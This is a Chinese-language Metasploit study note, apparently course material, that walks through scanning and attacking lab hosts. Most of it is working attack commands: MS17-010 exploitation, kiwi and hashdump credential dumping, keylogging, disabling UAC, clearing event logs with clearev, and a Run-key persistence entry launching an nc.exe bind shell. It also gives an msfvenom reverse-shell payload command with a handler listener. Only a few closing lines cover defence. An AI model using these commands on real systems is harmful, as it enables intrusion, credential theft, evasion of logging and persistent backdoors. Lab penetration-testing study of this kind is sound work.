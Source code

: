 进入msf：msfconsole
进入工作区：workspace

配置postgresql
初始化数据库：msfdb init
启动postgresql
systemctl enable postgresql


创建，删除工作区：workspace -a/-d tedu
切换工作区：workspace 工作区名（eg：default）


控制台调用db_nmap扫描：
db_nmap -v -A ip地址
查看记录（扫描的结果）：hosts 或 workspace -v（显示工作区列表）
services（查看详细信息）

启动gvm（基于openvas的开源项目）：gvm-start


进入msf控制台：msfconsole

攻击四步：
选择枪  ：search 漏洞编号（微软的编号或cve的编号都可）
端起枪： use 脚本编号
瞄准 ：    set rhost IP地址
开枪    ：  run

永恒之蓝为例：

四步过后进入meterpreter  

getuid可以查看自己的权限

1）查找MS17-010漏洞利用脚本
2）利用漏洞攻击 Win2008 Server

加载 kiwi 模块获取系统密码     ：-----------load kiwi

利用 hashdump 获取密文，访问解密网站进行解密

将渗透进程迁移到 explorer.exe，防止退出：：
ps -S explorer 或者 ps -U Administrator 查看进程编号
migrate 进程id    --------切换进程

通过键盘记录获取目标主机的键盘输入 run post/windows/capture/keylog_recorder
使用shell命令进入靶机系统：修改防火墙配置开放 TCP 444 端口
关闭系统 UAC（使用reg.exe工具）：reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f


清除事件查看器日志：clearev


上传木马：upload 本地木马地址  靶机的文件地址

在meterpreter下查看开机启动的进程： 
reg enumval -k HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run


在meterpreter下设置开机自启：
reg setval -k HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run -v "MyApp" -d "C:\path\to\nc.exe -l -p 444 -e cmd"  
查看是否设置成功：
reg enumkey/query -k HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
远程连接注入了后门程序的靶机（后门程序开启了nc程序）：nc ip 端口

防护思路：打补丁/找到后门程序关闭它/发现后门程序端口禁用他

linux系统的ssh远程连接漏洞防护与工具
攻击：
1、选枪：search ssh_login
2、端枪：use 编号
3、瞄准：set rhost ip
4、攻击：root
攻击完成后

使用Msfvenom命令生成木马后门：msfvenom -p windows/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=<PORT> -f <FORMAT> -o <OUTPUT_FILE>

上传木马到靶机 ：scp shell msfadmin@192.168.10.143:/tmp

启动： ssh msfadmin@192.168.10.143

在msf中监听脚本，接受后门连接： use exploit/multi/handler

在linux系统中设置木马的自启。

1、禁用root的远程连接
2、设置登录验证次数
3、设置最多有几个会话（注意：只有debian系统和centos可以配置，ubuntu禁用这个configuration）
4、可以使用密码连接和密钥连接相结合的方式进行身份验证

